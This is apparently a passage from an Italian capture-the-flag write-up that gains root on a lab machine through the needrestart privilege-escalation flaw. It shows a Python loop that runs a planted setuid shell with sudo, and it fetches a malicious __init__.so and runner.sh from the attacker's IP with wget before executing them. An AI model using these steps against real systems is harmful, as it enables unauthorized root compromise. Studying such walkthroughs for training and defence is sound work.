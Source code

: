 ````
cat << 'EOF' > /tmp/malicious/e.py
import time
while True:
    try:
        import importlib
    except:
        pass
    if __import__("os").path.exists("/tmp/poc"):
        print("Got shell!, delete traces in /tmp/poc, /tmp/malicious")
        __import__("os").system("sudo /tmp/poc -p")
        break
    time.sleep(1)
EOF

cd /tmp/malicious; PYTHONPATH="$PWD" python3 e.py 2>/dev/null
````

In pratica, si toglie il comando per compilare e lo si sostituisce con il comando curl per caricare dalla nostra macchina il file `__init__.so` creato.

Avviamo un server python nella cartella dove è stato creato il file `__init__.so` (`python3 -m http.server 8000`) 
Sulla macchina vittima andiamo nella cartella `/dev/shm` (La cartella **`/dev/shm`** in Linux è una **memoria condivisa (shared memory)** che risiede **in RAM**, non su disco)
Scarichiamo il file `runner.sh` (`wget http://10.10.14.27:8000/runner.sh`) , diamogli i permessi di esecuzione con `chmod +x runner.sh` e lanciamolo con `./runner.sh`.
Apriamo un nuovo terminale ssh (`ssh fismathack@10.10.11.92`) e lanciamo lo script vulnerabile `needrestart` con `sudo /usr/sbin/needrestart`
Nella primo terminale ssh diveneteremo root.
Nella cartella `/root` troviamo il file `root.txt` con la rootflag.
